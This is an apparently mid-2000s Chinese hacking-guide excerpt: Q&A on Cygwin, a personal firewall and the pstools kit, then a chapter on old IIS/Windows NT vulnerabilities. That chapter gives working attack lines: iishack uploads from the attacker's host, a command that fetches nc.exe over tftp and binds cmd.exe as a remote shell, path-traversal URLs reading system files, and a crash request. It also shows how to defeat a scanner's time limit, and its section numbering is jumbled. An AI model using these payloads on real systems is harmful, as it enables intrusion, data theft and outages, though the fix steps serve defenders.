- 我们可以通过对方的 80 端口（也就是 WEB 服务器使用的组件类型）来判断：如果检测出对方使用的是 IIS5.0，那么对方系统为 Windows2000；如果检测出对方使用的是 IIS5.1，那么对方系统为 WindowsXP；如果检测出对方使用的是 IIS6.0，那么对方系统为 Windows2003。  
  另外，如果你可以确定远程主机为 Windows 系统，而同时对方又开放了 5000 端口，那么对方极有可能使用的是 WindowsXP 系统。因为只有 WindowsXP 系统默认提供了 UPNP 服务（5000 端口），而 Windows2000 及 Windows2003 是没有提供这个服务的。

- Cygwin 该如何安装呀？

Cygwin 是一个在 Windows 平台下模拟 UNIX/Linux 环境的程序。安装了这个程序，就可以在 Windows 平台下运行许多 for UNIX/Linux 的程序，甚至从事于 UNIX/Linux 系统的一些软件开发，虽然这对于许多刚接触网络的新手来说，是以后的事情了。

下边我来介绍一下 Cygwin 的安装。将 Cygwin 的安装包解压后，在 Cygwin 目录下会有一个 setup 安装程序，双击运行后出现如图153的界面。

点击“下一步”后，出现如图154的安装界面。在这儿一共有三个选项，分别是“Install from Internet”（从 Internet 上安装）、“Download from Internet”（从 Internet 上下载）、“Install from Local Directory”（从本地目录安装）。在这儿我们选择第三个，也就是从本地目录安装。界面的下边还有两个选项，“Install For”表示安装的 Cygwin 是所有用户都可以使用，还是只有安装者才能使用。对于 WINDOWS 9*/ME 来说，这个选项没有任何意义，只有是 WINDOWS NT/2000/XP 时才有效；“Default Text File Type”为缺省文本文件类型选项，通常情况下为了与 UNIX/LINUX 尽可能相似，我们都会选择“Unix”。


图153


图154

“下一步”后，出现如图155的界面，在这儿主要是用来选择将 Cygwin 安装到的目的目录。在这儿我选择的是“e:”。

图155

接下来的安装界面如图156，选择 Cygwin 的安装源程序所在目录，通常 Cygwin 的安装程序都会自动选择出来，所以我们直接点击“下一步”就行了。


图156

接下来就是选择要安装的软件包及安装方式了，如图157。在安装界面的左下角有清楚提示，我们可以通过点击那个类似于“S”的图标来改变安装方式。Cygwin 的安装方式一共有“Default”“Install”“Reinstall”“Uninstall”四种，缺省安装方式为“Default”，在这儿我建议选择“Install”方式来安装所有软件包。

选择好后，安装程序就会开始自动安装（图158），包括 apache 1.3.24、perl 5.6.1、openssl、gcc 等常用工具包都会被安装进去。

安装好软件包后，安装程序就会进入最后一个安装界面，提示我们在桌面上建立一个图标以及将图标添加到开始菜单中，点击“完成”，整个安装教程就结束了，见图159。


图157


图159

我们要想运行 Cygwin 的话，只需双击桌面上的 Cygwin 图标就可以了，见图160。


图158


图160

如何在 Cygwin 环境下将一个原来 for UNIX/Linux 的 .c 源程序编译成可以在 Windows 下运行的程序呢？

我们先双击桌面上的 Cygwin 图标来运行 Cygwin，然后在“$”提示符下输入“gcc -o suntelnet suntelnet.c”，程序就会将 suntelnet.c 自动编译成 suntelnet.exe 可执行程序了（图161）。另外，Cygwin 默认的工作目录为“盘符:/cygwin/home/Administrator/”，我们将 .c 源程序直接复制到这个目录下就可以直接操作了。


图161

为何我运行使用 Cygwin 编译好的 .exe 可执行程序，会提示说无法找到 DLL 而出错呢（图162）？


图162

这是因为我们还缺少 cygwin1.dll 这个文件。虽然编译好了 .exe 可执行文件，但是在实际运行过程中，该程序还是需要 cygwin1.dll 文件来将原来只在 UNIX/Linux 系统下才能识别的格式转换成在 Windows 系统下可以正常运行的格式。cygwin1.dll 文件已收录于本书配套的光盘中。大家将该文件和编译好的文件放在一起，就可以正常运行了。

我使用的是天网防火墙，能不能给我介绍一下天网防火墙的简单使用呀？

天网防火墙是一款比较不错的免费个人网络防火墙软件，国内有许多个人用户以及一些小型企事业单位的网络服务器使用的都是天网防火墙。我们以天网防火墙 2.51 版本为例来简单介绍一下它的使用，2.6 及最新的 2.7 版本设置方法与我介绍的类似。

天网防火墙的安装非常简单，基本上只需要一路点击“下一步”按钮，就可以完成安装了。

天网防火墙 2.51 启动后的主界面见图163。最左边的三个图标，由下往上依次为“系统设置”“自定义 IP 规则”“应用程序规则”；往右为“安全级别”的选择项；再往右的三个大图标分别为“应用程序网络使用情况”“日志”以及“接通、断开网络”；最后为“关于”，也就是程序版本信息等。


图163

让我们先来看看“系统设置”项。在“启动”中我们选上“开机后自动启动防火墙”，这样开机后天网就会自动运行了；在“应用程序权限”中我们可以选上“允许所有的应用程序访问网络，并在规则中记录这些程序”，也可以不选；如果我们是在局域网中的话，可以在“局域网地址设定”中填上我们的 IP 地址，否则就不必填了，见图164。

在“自定义 IP 规则”选项中，这是整个天网防火墙设置的重点。实际上天网默认设置还算比较严格，禁止了 ping，对于一些常见攻击方法也都提供了保护。对于个人用户来说，还可以禁止掉局域网中用户访问共享资源等项，见图165。我们双击“IP 规则修改”这条规则，在“TCP”中选择从 1-512；同样在“UDP”中也选择从 1-512；对方端口可以选择从 1-65535，因为下边的选项为“当满足条件时拦截”。所以当有人试图连接我们的 1-512 端口时，都会被防火墙拦截，并被记录到日志中。如果我们认为拦截这些端口还不够的话，还可以再多选一些端口。倘若是服务器的话，因为有时必须要提供一些服务，比如 FTP、SMTP、WWW 等等，就必须要放行相应端口。在这一点上，个人电脑应该可以比那些服务器更加安全，图166。


图164

图165

天网防火墙也提供了一些空规则来让我们自由定义。我们随便找一条“空规则”双击后打开，采用同上的方法，只是拦截端口改为从 7788 到 7788。这样的话，就算我们的系统开放了 80 端口，并且存在 WEBDAV 远程溢出漏洞，而且我们使用 ISNO 的那个攻击程序就算远程溢出成功了，因为与 7788 端口的连接被防火墙拦截了，也不可能得到一个 CMD SHELL。在这儿我只是举个使用的例子而已，如果…是使用其他程序的话，当然不行，图167。

我们系统中的一些服务访问网络的设置，在这儿如果我们发现一些可疑的服务要访问网络的话，就可以通过右边的“删除”按钮来将这条规则清除掉，见图168。


图166


图168


图167


图169

在“应用程序规则”中记录的主要是在“应用程序网络使用情况”中记录的我们系统所开放的端口情况，主要有 TCP 及 UDP 两大类。通过查看这个，我们也可以发现系统可能存在的安全隐患，见图169。


图170

最后让我们来看一下日志，当有人试图扫描或连接我们的端口时，如果又恰好符合我们的拦截设置的话，天网就会将对方的 IP 及对方的操作请求记录下来，反映在日志中，以供我们分析使用，见图170。实际上我们只要上网，我们的系统就会被扫描，这种情况非常正常，许多朋友也不要紧张，这仅仅是正常的扫描而已，并非是攻击。只要我们正确地设置了防火墙，并且及时安装 SP 服务包以及一些补丁，那么来自网上的绝大多数恶意扫描及攻击我们都是可以防御的。

> 在网上看到许多人在说 pstools 是一个非常实用的工具包，能不能给我介绍一下它的使用方法呢？

pstools 是 sysinternals 出的一个功能强大的 nt/2k 远程管理工具包。它一共包括 12 个非常实用的小工具，这些小工具不仅对于网络管理员，对于攻击者也都是非常实用的。

#### 1. psexec

psexec 是一个远程执行工具，你可以像使用 telnet 一样使用它。它的使用格式为：

```bash
psexec \\远程机器ip [-u username [-p password]] [-c [-f]] [-i [-d]] program [arguments]
```

它的参数有：

- `-u` 后面跟用户名，`-p` 后面跟密码。如果建立 ipc 连接后这两个参数则不需要；如果没有 `-p` 参数，则输入命令后会要求你输入密码。
- `-c <路径|文件名>`：拷贝文件到远程机器并运行（注意：运行结束后文件会自动删除）。
- `-d`：不等待程序执行完就返回，比如要让远程机器运行 tftp 服务端的时候使用，不然 psexec 命令会一直等待 tftp 程序结束才会返回。
- `-i`：在远程机器上运行一个名为 psexesvc 的进程。

假设我在远程机器 ip 有一个账号，账号名是：abc，密码是：123。比如想要像用 telnet 一样在远程系统上执行命令，就可以打：

```bash
psexec \\远程机器ip -u abc -p 123 cmd
```

如果想要远程机器执行本地 `c:\\srm.exe` 文件，则可以打：

```bash
psexec \\远程机器ip -u abc -p 123 -c c:\\srm.exe
```

如果想要让远程机器执行本地 tftp 服务端（假设 tftp 服务端在本地 `c:\\tftp32.exe`），可以打：

```bash
psexec \\远程机器ip -u abc -p 123 -c c:\\tftp32.exe -d
```

（后面的例子不再重复 `-u` 和 `-p` 的用法）

#### 2. psservice

psservice 是一个服务管理程序。它的使用格式为：

```bash
psservice [\\远程机器ip [-u username] [-p password]] <command> <options>
```

它的参数只有：

- `-u` 后面跟用户名，`-p` 后面跟密码。建立 ipc 连接后这两个参数则不需要。如果没有 `-p` 参数，则输入命令后会要求你输入密码。

它的 command 有：

- `query [服务名]`：显示某一服务的状态（不填服务名则显示所有服务状态）。
- `config <服务名>`：显示某一服务的配置。
- `start <服务名>`：启动某一服务。
- `stop <服务名>`：停止某一服务。
- `restart <服务名>`：停止某一服务并重新启动它。
- `pause <服务名>`：暂停某一服务。
- `cont <服务名>`：恢复暂停的服务。
- `depend <服务名>`：显示某一服务依存关系。
- `find <服务名>`：在网络中搜索指定的服务。

比如你想查看远程机器上的 telnet 服务状态，可以打：

```bash
psservice \\远程机器ip query tlntsvr
```

（tlntsvr 为 telnet 服务的服务名）

比如你查看远程机器上的 telnet 服务配置，可以打：

```bash
psservice \\远程机器ip config tlntsvr
```

比如你想启动远程机器上的 telnet 服务，可以打：

```bash
psservice \\远程机器ip start tlntsvr
```

其他用法以此类推。

#### 3. pssuspend

pssuspend 是一个暂时停止进程的软件，它的使用格式为：

```bash
pssuspend [-r] [\\远程机器ip [-u username] [-p password]] <process name | process id>
```

它有三个参数：

- `-u` 后面跟用户名，`-p` 后面跟密码。建立 ipc 连接后这两个参数则不需要。如果没有 `-p` 参数，则输入命令后会要求你输入密码。
- `-r`：恢复进程。

比如要暂时停止一个 pid 号为 999、名称为 srm.exe 的进程，则可以打：

```bash
pssuspend \\远程机器ip 999
或
pssuspend \\远程机器ip srm
```

如果想要恢复它就可以打：

`pssuspend -r \\远程机器ip 999` 或 `pssuspend -r \\远程机器ip srm`

#### 4. psinfo

psinfo 是一个搜集机器软硬件信息的工具，它可以获得操作系统信息、硬件信息和软件信息。

它的使用格式为：

```bash
psinfo [-h] [-s] [-d] [-c] \\远程机器ip [-u username [-p password]]
```

它的参数有：

- `-u`：后面跟用户名；`-p`：后面跟密码，建立 ipc 连接后这两个参数则不需要。如果没有 `-p` 参数，则输入命令后会要求你输入密码。
- `-h`：显示它安装了哪些补丁包。
- `-s`：显示它装了哪些软件。
- `-d`：显示磁盘信息。

比如我只想看远程机器的软硬件信息，只用打：

```bash
psinfo \\远程机器ip
```

假如我还想看看它装了哪些补丁包，可以打：

```bash
psinfo -h \\远程机器ip
```

假如我还想看看它的磁盘信息，可以打：

```bash
psinfo -d \\远程机器ip
```

如果我想看它装了哪些软件，可以打：

```bash
psinfo -s \\远程机器ip
```

简单吧！

#### 5. pslist

pslist 是一个查看进程的程序。

它的使用格式为：

```bash
pslist [-d] [-m] [-x] [-t] [-s [n] [-r n]] [\\远程机器ip [-u username] [-p password]] [name | pid]
```

它的参数有：

- `-u`：后面跟用户名；`-p`：后面跟密码，建立 ipc 连接后这两个参数则不需要。如果没有 `-p` 参数，则输入命令后会要求你输入密码。
- `-s`：使用任务管理器模式实时查看进程，可以按 ESC 键退出。
- `-r <秒数>`：和 `-s` 连用，用来指定任务管理器模式的刷新间隔，默认刷新间隔为 1 秒。
- `-d`：各个进程的 CPU 使用信息。
- `-m`：显示各个进程的存储器使用信息。
- `-x`：非常详细地显示进程的所有信息。
- `-t`：以树型方式显示进程。

比如要查看远程机器 ip 上进程的 CPU 使用信息，可以打：

```bash
pslist -d \\远程机器ip
```

比如要查看一个 pid 号为 999、名称为 srm.exe 进程的存储器使用信息，可以打：

```bash
pslist -m \\远程机器ip 999

或

pslist -m \\远程机器ip srm
```

比如要以任务管理器模式实时查看 61.12.23.4 上的进程情况，并且刷新间隔为 3 秒，可以打：

```bash
pslist -s -n 3 \\远程机器ip
```

#### 6. psuptime

psuptime 是一个了解远程机器运行了多久的命令。

使用它只需要打：`psuptime \\远程机器ip`

#### 7. psshutdown

psshutdown 是一个远程关机命令。  
它的使用格式为：

```bash
psshutdown [[-s | -r | -k [-t nn] [-m "消息"] [-f] -a | -l | -o] [\\远程机器ip]
```

它的参数有：

- `-a`：取消以前执行的关机指令。
- `-t`：离关机还有多少秒（默认是 20 秒）。
- `-s`：关闭机器。
- `-m`：要显示的信息。
- `-f`：关机时不保存运行中的程序。
- `-r`：表示重启。
- `-l`：表示锁定电脑。
- `-o`：表示注销用户。

比如我想让远程机器 30 秒后关机并显示“要关机了，请保存文件”，则打：

```bash
psshutdown -t 30 -s -m "要关机了，请保存文件" \\远程机器ip
```

如果是要重启的话，则打：

```bash
psshutdown -t 30 -m "要关机了，请保存文件" -r \\远程机器ip
```

如果要取消刚才的指令可以打：

```bash
psshutdown -a \\远程机器ip
```

其他参数以此类推。

#### 8. psfile

psfile 是一个显示机器上的会话和有哪些文件被网络中的用户打开的命令。  
它的使用格式为：

```bash
psfile [\\远程机器ip [-u Username [-p Password]]] [[id | path] [-c]]
```

它的参数有：

- `-u`：后面跟用户名；`-p` 后面跟密码，建立 ipc 连接后这两个参数则不需要。如果没有 `-p` 参数，则输入命令后会要求你输入密码。
- `-c`：关闭会话或文件。

比如我想看看远程机器上的会话和被远程用户打开的文件，可以打：

```bash
psfile \\远程机器ip
```

接着就会显示：

```text
[33] C:\\WINNT
User: ADMINISTRATOR
Locks: 0
Access: Read
[63] \\PIPE\\srvsvc
User: ADMINISTRATOR
Locks: 0
Access: Read Write
```

接着我想关闭 id 为 33、路径为 `c:\\winnt` 的这个会话，可以打：

```bash
psfile \\远程机器ip 33 -c

psfile \\远程机器ip c:\\winnt -c
```

#### 9. psloggedon

psloggedon 是一个显示目前谁登录机器的命令。  
它的参数只有：

- `-l`：只显示本地登录用户而不显示其它的网络登录用户。
- `-x`：不显示登录时间。

比如说要显示远程机器现在登录的用户，可以打：

```bash
psloggedon \\远程机器ip
```

#### 10. psgetsid

psgetsid 是一个远程获取帐号 SID 信息的工具。  
它的使用格式为：

```bash
psgetsid [\\远程机器ip [-u username [-p password]]] [account]
```

它的参数有：

- `-u` 后面跟用户名；`-p` 后面跟密码，建立 ipc 连接后这两个参数则不需要。
- 如果没有 `-p` 参数，则输入命令后会要求你输入密码。

比如要查看远程机器上帐号名为 abc 的 SID 信息，可以打：

```bash
psgetsid \\远程机器ip abc
```

#### 11. pskill

pskill 是一个杀除进程的程序。  
它的使用格式为：

```bash
pskill [\\远程机器ip [-u username] [-p password]] <process name | process id>
```

比如要杀除一个 pid 号为 999、名称为 srm.exe 的进程，可以打：

```bash
pskill \\远程机器ip 999
或
pskill \\远程机器ip srm
```

#### 12. psloglist

psloglist 是一个查看系统事件记录的程序。  
它的使用格式为：

```bash
psloglist [\\远程机器ip [-u username [-p password]]] [-s [-t delimiter] [-n # | -d #] [-c] [-x] [-r] [-a mm/dd/yy] [-b mm/dd/yy] [-f filter] [-l event log file] <eventlog>
```

它的参数有：

- `-u`：后面跟用户名；`-p` 后面跟密码，建立 ipc 连接后这两个参数则不需要。
- `-c`：显示事件之后清理事件记录。
- `-l <事件记录文件名>`：用于查看事件记录文件。
- `-n <n>`：只显示最近的 n 条系统事件记录。
- `-d <n>`：只显示 n 天以前的系统事件记录。
- `-a mm/dd/yy`：显示 mm/dd/yy 以后的系统事件记录。
- `-b mm/dd/yy`：显示 mm/dd/yy 以前的系统事件记录。
- `-f <事件类型>`：只显示指定事件类型的系统事件记录。
- `-x`：显示事件数据代码。
- `-r`：从旧到新排列（如不加则默认是从新到旧排列）。
- `-s`：以一个事件为一行的格式显示，中间默认以逗号隔开各个信息。
- `-t <字符>`：这个参数和 `-s` 连用，用来改变 `-s` 中默认的逗号。

如果我想看远程机器的系统事件记录，只用打：

```bash
psloglist \\远程机器ip 123
```

比如我想看最近的 10 条 error 类型的记录，可以打：

```bash
psloglist \\远程机器ip -n 10 -f error
```

> 如何检测一个程序所加的壳的类型呢？

专门用于检测程序所加壳类型的工具在网上有许多，比如 PEiD 就是其中常用的一个。PEiD v0.91 可以检测出 450 多个不同的壳，可以说目前出现的加壳软件，它几乎都可以检测出来。PEiD v0.91 的使用也非常简单，启动后的界面如图171。


点击“File”最右边的那个按钮，来选择我们要检测的源程序，在图172中以 nc.exe 为例。


选择好文件后，PEiD 就会自动进行检测了。除了“Entrypoint”、“EP Section”、“File Offset”、“First Bytes”、“Linker Info”、“Subsystem”等六项外，在界面的下栏中会清楚显示出目标程序所加壳的类型。在图173中，PEiD 就检测出 nc.exe 所加的壳为 UPX，版本为 0.89、6-1.02 或 1.05-1.24，这就使得我们可以选择相应的程序来脱掉这个壳。


图173。

运行流光5。流光5运行后如果无法连接 Internet 来进行日期时间的检验，就会成功运行；运行成功后再连接 Internet 就可以使用了。对于局域网上网的用户来讲，可以先拔掉网线，然后运行流光5，等流光5运行成功后，再插上网线就可以了。

问：如何清除流光5的时间限制呀？在网上我也看到了许多方法，可就是没有成功，该怎么办呀？

答：在网上确实有许多清除流光5的方法，有的可以成功，也有的方法有人说不能成功。在这儿我就把我使用的方法告诉你。

我使用的是 Windows 2000 的高级服务器版本；在安装前，我把系统时间调到 2002 年，然后进行安装（缺省安装密码为 www.cathacker.com）。安装完成后运行提示过期。改系统时间的方法以前可以，但后来不行了，因为流光5不单与本地电脑日期校验，还与网上几个特定服务器日期时间校验。

接着我按照提示，将补丁程序 `fluxay5beta1补丁.rar` 解压，把解压后的 `fluxay5beta2.exe` 复制到流光5安装目录（通常为 `\Program Files\Fluxay5Beta1\`），直接运行该程序。运行成功后系统时间仍是 2002 年，没有改回 2004 年。

另外还有一个方法：对于拨号或宽带上网的个人用户，可以先不拨号运行流光5，运行成功后再连接 Internet 即可。

问：能不能给我简单介绍一下病毒的传播途径呀？

答：就目前来讲，病毒的传播途径主要有几种：

- 1. 通过软盘、光盘上的文件传播。属于早期典型方式，目前已不是主要方式。
- 2. 通过共享传播。Internet 和局域网中仍有大量开放共享主机，因此在局域网内更易传播、感染。
- 3. 通过电子邮件传播。曾是最常见方式，许多网络蠕虫都通过邮件传播。
- 4. 通过系统漏洞传播。如“冲击波”“震荡波”等病毒通过 Windows 系统安全漏洞进行传播和感染。

可以说，前三种方法多属于被动传播/感染方式，防范相对简单；而利用系统漏洞传播的病毒，需要及时修复系统漏洞，才能从根本上阻断传播途径。


## 第七章

## Windows

## 常见漏洞及修复方法


## 第七章 Windows 常见漏洞及修复方法

### 1. iishack

### 2. MDAC/RDS 漏洞

这是 www.eeye.com 在 IIS 4.0 中发现的一个严重的缓冲区溢出漏洞。该漏洞允许远程攻击者上传程序到目标服务器。这个缓冲区溢出主要存在于 `.htr`、`.idc` 和 `.stm` 文件中。对于这些文件的 URL 请求，没有对名字进行充分的边界检查，导致运行攻击者上传的一些后门程序，在系统中下载和执行程序。

这是于 1999 年被公布的一个非常严重的安全漏洞。IIS 的 MDAC 组件存在一个漏洞，可以导致攻击者远程执行系统上的命令。主要核心问题存在于 RDS DataFactory，默认情况下，它允许远程命令发送到 IIS 服务器中，这些命令会以设备用户的身份运行，一般默认情况下是 SYSTEM 用户。我们可以通过如下的方法来检测目标系统中是否存在该漏洞：

**攻击方法：**入侵者通常使用 `iishack.exe` 和 `ncx.exe` 文件，可以到 www.technotronic.com 上下载。将 `ncx.exe` 放到 Web 服务器上或是自己的虚拟服务器上，然后使用 `iishack.exe` 来进行上传。

```bash
nc -nw -w 2 目标ip 80 GET /msadc/msadcs.dll HTTP
```

```bash
iishack.exe 目标ip 80 自己ip/ncx.exe
```

如果你得到下面的信息：`application/x_varg`，就很有可能没有打上补丁并存在此漏洞。

上传成功的话，执行 `nc 目标ip 80`。如果溢出成功，就会得到一个具有管理员权限的 `cmd shell`。

**攻击方法：**针对该漏洞的攻击，最常用的是 rain forest puppy 的两个程序（www.wiretrip.net）`mdac.pl` 和 `msadc2.pl`。

**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

```bash
mdac.pl -h 目标ip
```

系统会提示：“Please type the NT command line you want to run (cmd /c assumed)\ncmd /c”，我们在后边输入想要执行的命令即可。还有一个简单的方法就是上传 `nc.exe`，使用 `nc.exe` 把对方的 `cmd.exe` 绑定在某个端口，例如 80 端口上。可以通过 `tftp` 服务器实现把 `nc.exe` 上传上去，完整命令如下：

`cmd /c cd %systemroot%/&&tftp -i tftp服务器ip GET nc.exe&&del ftptmp && attrib -r nc.exe&&nc.exe -l -p 80 -t -e cmd.exe`

然后就可以在本地使用 `nc.exe` 连接对方的 80 端口，得到一个具有系统权限的 `cmd shell` 了。

**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

#### 修复方法

- 如不需要提供 MDAC/RDS 服务，将 `/msadc` 虚拟目录删除。
- 如果需要提供 MDAC/RDS 服务，先判断 MDAC 版本，检查 MDAC 的 `Msdadc.dll` 和 `Oledb32.dll` 的属性。  
  如 MDAC 是 1.5 版，升级至 2.1 版及以上（`http://www.microsoft.com/data/download.htm`），将 MDAC 打开为“安全模式”。  
  如为 MDAC 2.0 版本，设为“安全模式”，将 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\DataFactory\HandlerInfo` 中的 `handlerRequired` 字段值改为“1”。“0”为关闭，“1”为激活安全模式。
- 下载 `http://www.microsoft.com/technet/security/exe/handsafe.exe`，里面有一个 `HANDSAFE.REM` 文件，更名为 `HANDSAFE.REG` 后双击添加。
- 服务器上如为 MDAC 2.1 版本以上，必须打开“安全模式”。
- 删除 RDS 范例：`c:\Program Files\common files\system\msadc\samples\*.*`，并删除注册表项：`HKEY_LOCAL_MACHINE/System/CurrentControlSet/Services/W3SVC/Parameters/ADCLaunch/VbBusObj.VbBusObjCls`。

### 4. catalog_type.asp 漏洞

`catalog_type.asp` 范例执行外部程序漏洞是 Windows NT 早期发现的一个安全漏洞。利用该漏洞，攻击者可以通过浏览器执行任意命令。

**攻击方法：**`http://ip/AdvWorks/equipment/catalog_type.asp?ProductType=|shell("cmd+/c+dir")|`

**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

**修复方法：**删除 `catalog_type.asp` 文件。

### 5. Codebrws.asp & Showcode.asp

`Codebrws.asp` 和 `Showcode.asp` 是 IIS 4.0 中附带的看文件程序，但不是默认安装的。这个查看器是在管理员允许查看样例文件时安装的。但是，这个查看器没有很好地限制所访问的文件，远程攻击者可以利用这个漏洞查看目标机器上的任意文件内容，但要注意：

- `Codebrws.asp` 和 `Showcode.asp` 默认情况下没有安装。
- 漏洞仅允许查看文件内容。
- 这个漏洞不能绕过 Windows NT 系统的 ACL 控制列表限制。
- 只有同一分区下的文件可以被查看（所以把 IIS 目录和 WINNT 分区分开安装是个很好的主意，即使到现在使用 Windows 2003，这样做也是有好处的），这样也可以较好地防止早期 IIS 5.0 的 UNICODE 漏洞。
- 攻击者需要知道请求的文件名。

**攻击方法：**

```text
http://ip/iisamples/exair/howitworks/codebrws.asp?source=/iisamples/exair/howitworks/codebrws.asp
```

就可以查看到 `codebrws.asp` 的源代码了。

也可以使用 `showcode.asp` 来查看其他文件内容：

```text
http://ip/msadc/samples/slector/showcode.asp?source=/msadc/../../../winnt/win.ini
```

这样就可以查看到 `win.ini` 文件的内容了。

```text
http://ip/msadc/Samples/SELECTOR/showcode.asp?source=/msadc/Samples/../../../../../winnt/system32/logfiles/MSFTPSVC1/ex000928.log
```

这样就查看到对方 FTP 服务 9 月 28 日的日志了。

**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

**修复方法：**删除 `showcode.asp` 文件，删除 `codebrws.asp` 文件。

### 5、asp dot 漏洞

这个漏洞是 L0pht 小组于 1997 年发现的一个非常古老的漏洞，该漏洞可以泄露 ASP 源代码。

**攻击方法：**`http://ip/sample.asp.`

**受影响的系统：**该漏洞只影响早期 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

**修复方法：**安装 Windows NT 系统的 SP6a 补丁。

### 6、IIS 4.0 ISM.DLL 中文溢出漏洞

这个漏洞是由 Cerberus Information Security Team 最早发现的。该漏洞允许攻击者查看任意文件内容和源代码。通过在文件名后面追加近 230 个“+”或者“?%20?”（表示空格），并追加“?.htr?”的特殊请求给 IIS，会使 IIS 认为客户端请求的是“?.htr?”文件。而 `.htr` 文件后缀映射到 ISM.DLL ISAPI 应用程序，这样 IIS 就把这个 `.htr` 请求转给 DLL 文件，然后 ISM.DLL 程序把传递过来的文件打开和执行。但在 ISM.DLL 截断信息之前，缓冲区发送一个截断开的 `.htr`，并会有一些时间返回你要打开的文件内容。除非 Web 服务停止并重启过，否则该攻击只能有效执行一次。如果已经发送过一个 `.htr` 请求到机器上，那么该攻击就会失败，它只能在 ISM.DLL 第一次装入内存时工作。CNNS 发现追加 “+” 号可以实现多次攻击。

DLL：ISM.DLL、SSINC.DLL、HTTPODBC.DLL。

**攻击方法：**`http://ip/global.asa%20%20(...<=230)global.asa.htr.idc & .ida`

这个漏洞实际上类似 ASP dot 漏洞。它能在 IIS 4.0 上显示其 Web 目录信息，有些还在 IIS 5.0 上发现过此类漏洞。通过增加 `?idc?` 或者 `?ida?` 后缀到 URL，会导致 IIS 尝试通过数据库连接程序 `.DLL` 运行 `.IDC`；如果此 `.IDC` 不存在，它就返回一些信息给客户端。

`http://ip/anything.idc` 或者 `anything.idq+.htr`

“+.htr” 这个漏洞是 nsfocus 发现的。对有些 ASA 和 ASP 追加 `+.htr` 的 URL 请求，会导致文件源代码泄露。

`http://ip/global.asa+.htr`

**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

**修复方法：**

- 下载补丁程序：`http://www.microsoft.com/technet/security/bulletin/ms99-019.asp`
- 将 NT 4.0 升级至 SP6 或 SP6a。
- 如用不到 `.htr`，将以下三个 “ISAPI filter” 删除：ISM.DLL、SSINC.DLL、HTTPODBC.DLL。

### IIS NT Site Server Adsamples 漏洞

通过请求 `site.csc`（通常保存在 `/adsamples/config/site.csc` 中），攻击者可能获得数据库中的 DSN、UID、PASS 等信息。

**攻击方法：**`http://ip/adsamples/config/site.csc`

**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

**修复方法：**删除 `site.csc`。

### IIS ASP Alternate Data Streams（::$DATA）

`$DATA` 漏洞是在 1998 年中期公布的。`$DATA` 是 NTFS 文件系统中存储在文件里的 mail data stream 属性。通过建立特殊格式的 URL，可能使用 IIS 在浏览器中访问这个 data stream（数据流），这样也就显示了文件代码中这些 data stream（数据流）和任何文件包含的数据代码。该漏洞有几个限制：一是要显示的文件需要保存在 NTFS 分区（大多数服务器都会使用 NTFS 分区）；二是文件需要被 ACL 设置为全局可读；而且未授权用户需要知道要查看的文件名。NT 中的 IIS 都存在此问题。

**攻击方法：**`http://ip/default.asp::$DATA`


**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

**修复方法：**安装 NT 系统的 SP6a 服务包。

### 9. Double Byte 透露 ASP 源码漏洞

这是在 NT 系统中发现的一个漏洞。利用该漏洞，入侵者可以查看 ASP 文件的源代码。

**攻击方法：**`http://ip/default.asp%81`

**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

**修复方法：**安装 NT 系统的 SP6a 服务包。

### 10. code.asp 泄露文件内容漏洞

**攻击方法：**`http://ip/AdvWorks/code.asp?source=/AdvWorks/../../../../winnt/win.ini`

**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

**修复方法：**将 `code.asp` 文件删除掉。

### 11. fpcount.exe 解析服务文件漏洞

**攻击方法：**`http://ip/_vti_bin/fpcount.exe?Page=default.`

**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

**修复方法：**删除 `fpcount.exe` 文件可简单防范该漏洞。

### 12. 微软 FrontPage 98 dvwssr.dll 漏洞

**检测方法：**

`telnet 目标ip 80`  
`GET /_vti_bin/_vti_aut/dvwssr.dll HTTP/1.0`

回车两次，如果对方服务器直接中断连接，则表示该文件存在，可以被使用。

**攻击方法：**`http://ip/GET/_vti_bin/_vti_aut/dvwssr.dll?aaa......aaaaaaa(5000个a)`

这样可以造成对方服务器宕机。

**受影响的系统：**该漏洞只影响 Windows NT 系统，对于 Windows 2000 系统并不存在该漏洞。

**修复方法：**将 NT 系统升级至 SP6a，或者删除 `dvwssr.dll` 文件也可简单防范该漏洞。

### 13. IIS %3F+.htr 泄露文件内容漏洞

**攻击方法：**`http://ip/login.asp%3F+.htr`

**受影响的系统：**该漏洞影响 Windows NT 系统，以及早期 Windows 2000 系统；但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。

**修复方法：**将你的 Windows 2000 系统升级至 SP2 及以上即可。

### 14. Virtualized UNC Share 目录遍历漏洞

**攻击方法：**`http://ip/login.asp\`

**受影响的系统：**该漏洞影响 Windows NT 系统，以及早期 Windows 2000 系统；但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。

**修复方法：**将你的 Windows 2000 系统升级至 SP2 及以上即可。

### 15. Translate:f 目录 ASP 漏洞

**受影响的系统：**该漏洞影响 Windows NT 系统，以及早期 Windows 2000 系统；但对于目前的 Windows 2000 + SP3 及 SP4 并不存在该漏洞。

**修复方法：**将你的 Windows 2000 系统升级至 SP2 及以上即可。

### 16. Index Server（null.htw）漏洞及代码漏洞

**攻击方法：**

`http://ip/null.htw?CiWebHitsFile=/default.asp%20&CiRestriction=none&CiHiliteType=Full`  
`http://ip/null.htw?...`

```text
CiWebHitsFile=/../../winnt/win.ini&CiRestriction=none&CiHiliteType=Full
http://ip/iissamples/issamples/oop/qfullhit.htw?CiWebHitsFile=/../../winnt/system32/logfiles/w3svc1/ex000918.log&CiRestriction=none&CiHiliteType=Full
http://ip/default.htm.htw?CiWebHitsFile=/../../winnt/system32/logfiles/w3svc1/ex000918.log&CiRestriction=none&CiHiliteType=Full
```

